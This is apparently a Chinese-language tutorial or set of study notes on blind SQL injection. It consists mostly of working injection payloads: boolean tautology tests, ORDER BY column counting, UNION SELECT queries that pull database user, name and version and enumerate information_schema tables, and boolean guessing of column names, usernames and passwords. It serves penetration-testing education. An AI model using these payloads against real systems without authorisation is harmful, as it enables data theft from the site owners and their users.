

# SQL盲注

**[SQL盲注：]** 不显示数据库内建的报错信息（内建的报错信息主要是为帮助开发人员发现和修复漏洞），但由于报错信息提供了大量的有用信息。当程序员隐藏了数据库内建报错信息，替代为通用的错误提示，`SQL注入无法依据报错信息判断注入语句的执行结果`，即为盲注。

*思路：*既然无法基于报错信息判断结果，<font color=red> 基于逻辑真假的不同结果 </font>来判断

```
a.  1' and 1=1--+
```


```
b.  1' and 1=2--+     [输入钱真后假，无返回，页面没有被执行]
```

 **a与b比较，表明存在SQL注入漏洞**


···  常用盲注语句[原理：猜测数据]  ··· 

```
1' order by 5-- 
```

*通过修改数值来测试列数，若页数没出现结果，则不存在该漏洞，1不可以去掉，因为SQL语句，表明必须提交一个正确的值，不一定为1*


```
2' union select user(),database()--     [查询用户名和数据库名]
```



```
2' union select 1,2-- 
```


```
1' union select null,CONCAT_WS(CHAR(32,58,32),user(),database(),version())--+
```

```
[查询所有的表名，#为注释后面的代码]
1' and 1=0 union select null,table_name from information_schema.table#
1' and 1=0 union select null,table_name from information_schema.columns where table_name='users'#
```


----


### 当无权读取information_schema库/拒绝union，order by语句时

**【若为真，则显示内容，若为假，则不显示如何内容】**

···  语句中的1不为固定，可灵活变化·，甚至为字符，视情况而定 ···

*使用Burpsuite自动化猜解内容*


1. 猜列名

```
1' and user is [not] null--+     [测试user列是否为空]
```


2. 猜当前表表名

```
1' and user.user is not null--+     [列为已知列]
```


3. 猜库里其他表

```
1' and (Select count(*) from table)>0--+
```


4. 列表对应关系

```
1' and users.user is not null--+
```


5. 猜字段内容

```
1' and user='admin'
1' or user like '%a%'
```


6. 猜账号对应密码

```
2' or user='admin' and password='faqfoiauggvuagbymd5'
[若为1，为id=1；若为2，则id=2（意思为查询第二个账号）；]
```


